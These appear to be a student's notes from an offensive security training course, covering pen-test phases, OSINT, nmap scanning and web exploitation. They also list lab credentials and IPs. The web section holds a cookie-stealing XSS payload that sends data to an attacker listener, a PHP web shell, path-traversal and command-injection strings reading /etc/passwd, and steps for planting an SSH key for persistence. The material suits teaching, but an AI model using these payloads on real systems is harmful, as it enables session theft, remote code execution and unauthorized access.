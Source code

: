 Stack  USERNAME    PASSWORD        JUMPBOX-IP
13 	ANSP-007-M 	QZozUJFIeaiguQQ 	10.50.33.89
=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
CTFD 10.50.20.103:8000
Lin-ops = 192.168.65.20 // 10.50.29.245
Win-ops = 192.168.65.10 // 10.50.32.34
=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
Penetration Testing
  What is Pen Testing??
    -Pen Testing 
**Phase 1: Mission Definition**
    -Define mission goals and targets
    -Determine scope of mission
    -Define RoE
**Phase 2: Recon**
  -Information gathering about the target through public sources
**Phase 3: Footprinting**
  -Accumulate data through scanning and/or interaction with the target/target resources
**Phase 4: Exploitation & Initial Access**
  -Gain an initial foothold on network
**Phase 5: Post-Exploitation**
    -Establish persistence
    -Escalate privileges
    -Cover your tracks
    -Exfiltrate target data
**Phase 6: Document Mission**
  -Document and report mission details
**Penetration Test Reporting**
  -Operation Notes (OPNOTES) vs Formalized Reporting
**Penetration Test Reporting**
    -Executive Summary
    -Technical Summary
**Penetration Test Reporting**
    -Reasons to report
    -What to report
    -Screen captures
=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
Vulnerability and Exploitation Research
**Initial Access**
    -What is initial access?
    -What is now the most common method for gaining initial access?                                  
                     Phishing!
**Initial Access**
What are some other techniques to gain initial access?
**Introduction to Exploit Research** password: 
Permission denied,
    Transition from reconnaissance to weaponization
    Leverage intelligence/data about network
    Pair vulnerabilities to exploits
    Align exploits to operational objectives
**Research**
    Open sources
    Organizational capabilities
**Capabilities**
    Mission Objectives drive requirements
        Collection
        Effects
    Additional functionality to fulfill requirements
    Communications security (COMSEC)
**Testing**
    Exploit Development occurs from vulnerability pairing and mission-drivens requirement
        Test and verify success
    Testing provides a number of benefits:
        Faster time to breakout of initial foothold
        Reduced risk of detection and/or tool failure
        Improved recovery times
**Plan**
    Procure Hardware and software
    Assign developer
    Assign a tester to develop TTPs and break it
    Document testing results
    Testing environment
=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
Network Reconnaisance and Scanning 
**Open Source Intelligence**
During the lesson we will review the following topics:
    Appropriate Documentation Practices
    Use of Collected Data
    Collection Methods
DoD States:
"produced from publicly available information that is collected, exploited, and disseminated in a timely manner to an appropriate audience for addressing a specific intelligence requirement."
**Documentation**
    Why is it important?
    What should we include in documentation?
**Collection and Use**
    What do we want to collect?
    How can it be used in operations?
**Limitations on Collection**
    Are there rules that guide our operations and collection parameters?
    What are important factors when collecting data about a target?
**Data to Collect**
    Web Data
    Sensitive Data
    Publicly Accessible
    Social Media
    Domain and IP Data
**Hyper-Text Markup Language (HTML)**
Standardized markup language for browser interpretation of webpages
    Client-side interpretation (web browser)
    Utilizes elements (identified by tags)
Typically redirects to another page for server-side interaction
Cascading Stylesheets (CSS) for page themeing
**HTML**
DEMO: Simple HTML page
**http://10.50.XX.XX/webexample/htmldemo.html**
Demonstration
Data collection through scraping
Scraping Data
**Prep**
pip install lxml requests
**Script**
#!/usr/bin/python
import lxml.html
import requests
page = requests.get('http://quotes.toscrape.com')
tree = lxml.html.fromstring(page.content)
authors = tree.xpath('//small[@class="author"]/text()')
print ('Authors: ',authors)
**What will it output?**
Authors:  ['Albert Einstein', 'J.K. Rowling', 'Albert Einstein', 'Jane Austen', 'Marilyn Monroe', 'Albert Einstein', u’Andr\xe9 Gide', 'Thomas A. Edison', 'Eleanor Roosevelt', 'Steve Martin']
**Advanced Scanning Techniques**
    Host Discovery
        Find hosts that are online
    Port Enumeration
        Find ports for each host that is online
    Port Interrogation
        Find what service is running on each open/available port     
**Demonstration**
Advanced Scanning Techniques
**NMAP Scripting Engine**
During the lesson we will review the following topics:
    Benefits of Scanning with Scripts
    Script Management and Utilization
    Usage and Examples
**Nmap Project States:**
"(It) allows users to write (and share) simple scripts to automate a wide variety of networking tasks. Those scripts are then executed in parallel with the speed and efficiency you expect from Nmap."
**Benefits**
    Why use scripts, instead of normal scanning options?
    Why are scripts important?
**Main Benefits**
    Network Discovery
    Sophisticated Version Detection
    Vulnerability Detection
    Backdoor Detection
    Vulnerability Exploitation
**Script Management**
Scripts are stored in a subdirectory of the Nmap data directory by default:
/usr/share/nmap/scripts
**Usage and Examples**
nmap --script <filename>|<category>|<directory>
nmap --script-help "ftp-* and discovery"
nmap --script-args <args>
nmap --script-args-file <filename>
nmap --script-help <filename>|<category>|<directory>
nmap --script-trace
**Demonstration**
Usage of Nmap NSE

for i in {1..254}; do (ping -c 1 172.16.82.$i | grep "bytes from" &) ; done

Scheme of Maneuver:
>jump box
-> network scan 192.168.28.96/27
--> network scan 192.168.150.224/27
nmap scripts
  --script=http-enum <ip>
  

=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
Web Exploitation
**Server/Client Relationship**
    Synchronous communications between user and services
    Not all data is not returned, client only receives what is allowed
**Hyper-Text Transfer Protocol (HTTP)**
    Request/Response
        Various tools to view:
            tcpdump
            wireshark
            Developer Console
GET / HTTP/1.1
HTTP/1.1 200 OK
**HTTP Methods**
A Select Few:
    GET
    POST
    HEAD
    PUT
https://tools.ietf.org/html/rfc2616
**HTTP Response Codes**
    10X == Informational
    2XX == Success
    30X == Redirection
    4XX == Client Error
    5XX == Server Error
https://tools.ietf.org/html/rfc2616
**HTTP Packet Headers**
DEMO: Look at a header!
    Open a browser (on your opstation) and enter the Developer Console
**HTTP Fields**
    User-Agent
    Referer
    Cookie
    Date
    Server
    Set-Cookie
**HTTP Method Notes**
GET request can be utilized to pass data to the server using the URL string:
http://10.50.x.x/path/pathdemo.php?myfile=demo1
Wget
    Recursively download
    Recover from broken transfers
    SSL/TLS support
wget -r -l2 -P /tmp ftp://ftpserver/
wget --save-cookies cookies.txt --keep-session-cookies --post-data 'user=1&password=2' https://website
wget --load-cookies cookies.txt -p https://website/interesting/article.php
cURL
    Not recursive
    Can use pipes
    Upload ability
    Supports more protocols vs Wget, such as SCP & POP3
curl -o stuff.html https://web.site/stuff.html
curl 'https://web.site/submit.php' -H 'Cookie: name=123; settings=1,2,3,4,5,6,7' --data 'name=Stan' | base64 -d > item.png
**JavaScript (JS)**
    Allows websites to interact with the client
        JavaScript runs on the client’s machine
    Coded as .js files, or in-line of HTML
**JS Interaction**
<script>
function myFunction() {
    document.getElementById("demo").innerHTML = "Paragraph changed.";
}
</script>
<script src="https://www.w3schools.com/js/myScript1.js"></script>
**JS in action**
DEMO: Lets take a look at Javademo.html
http://10.50.XX.XX/java/Javademo.html
**Developer Console**
(Must be done from opstation!)
**Enumeration**
    Robots.txt   (varwwwhtml)
Legitimate surfing
Tools:
    NSE scripts
    Nikto
    Burp suite (outside class)
**Cross-Site Scripting (XSS) Overview**
    Insertion of arbitrary code into a webpage, that executes in the browser of visitors
    Unsanitized GET, POST, and PUT methods allow JS to be placed on websites
    Often found in forums that allow HTML
**Reflected XSS**
    Most common form of XSS
    Transient, occurs in error messages or search results
    Delivered through intermediate media, such as a link in an email
    Characters that are normally illegal in URLs can be Base64 encoded
Below is what you see, but the server will decode as name=abc123
http://example.com/page.php?name=dXNlcjEyMw
**Stored XSS**
    Resides on vulnerable site
    Only requires user to visit page
<img src="http://invalid" onerror="window.open('http://10.50.XX.XX:8000/ram.png','xss','height=1,width=1');">
Useful JavaScript Components
Proof of concept (simple alert):
<script>alert('XSS');</script>
    Capturing Cookies
    document.cookie
    Capturing Keystrokes
        bind keydown and keyup
    Capturing Sensitive Data
    document.body.innerHTML
**Server-Side injection**
Directory Traversal/Path Traversal
    Ability to read/execute outside web server’s directory
    Uses ../../ (relative paths) in manipulating a server-side file path
view_image.php?file=../../etc/passwd
**Malicious File Upload**
Site allows unsanitized file uploads
    Server doesn’t validate extension or size
    Allows for code execution (shell)
    Once uploaded
        Find your file
        Call your file
**Command Injection**
Application on the server is vulnerable,
allowing execution of arbitrary commands
    User input not validated
        Common example is a SOHO router, with a web page to allow ping
Might contain the following in it’s code:
system("ping -c 1 ".$_GET["ip"]);
Run the following to chain/stack our arbitrary command
; cat /etc/passwd

 <script>document.location="http://lin-op:8000"/+document.cookie;</script>
python3 -m http.server

  <HTML><BODY>
  <FORM METHOD="GET" NAME="myform" ACTION="">
  <INPUT TYPE="text" NAME="cmd">
  <INPUT TYPE="submit" VALUE="Send">
  </FORM>
  <pre>
  <?php
  if($_GET['cmd']) {
    system($_GET['cmd']);
    }
  ?>
  </pre>
  </BODY></HTML>


Through either malicious upload or command injection, we can potentially upload our ssh key onto the target system. By uploading our key to the target, we can give ourselves access without needing a password.
**SSH Key Setup**
    **Run the ssh key gen command on ops-station. When prompted for location to save just press enter to leave default, you can press enter for password as well**
     ssh-keygen -t rsa -b 4096
   **After generating ssh key look for public key in your .ssh folder. Your public key will have .pub as the extension**
     cat ~/.ssh/id_rsa.pub
    **Find out what account is running the web sever/commands.**
     whoami
    **Once the user is known find this users home folder by looking in /etc/passwd. We also want to make sure the user has a login shell. For the demo we looked for www-data in passwd because they were the resluting user from the previous whoami command.**
     www-data:x:33:33:www-data:/var/www:/bin/bash    #/var/www is the home folder for this user and /bin/bash is login shell.
   **Check to see if .ssh folder is in the users home directory. If not make it**
     ls -la /users/home/directory      #check if .ssh exist
     mkdir /users/home/directory/.ssh   #make .ssh in users home folder if it does not exist
   **Echo ssh key to the authorized_keys file in the users .ssh folder.**
     echo "your_public_key_here" >> /users/home/directory/.ssh/authorized_keys
    **Verify key has been uploaded successfully.**
     cat /users/home/directory/.ssh/authorized_keys
Once this process has be finished you should now be able to ssh on the target system as the user who is running the web server. If prompted for a password something has gone wrong.

uploads
robots.txt

xfreerdp /V ip:pt /u:user /p:password +clipboard 








































































































































































































































































































































































































































































































































































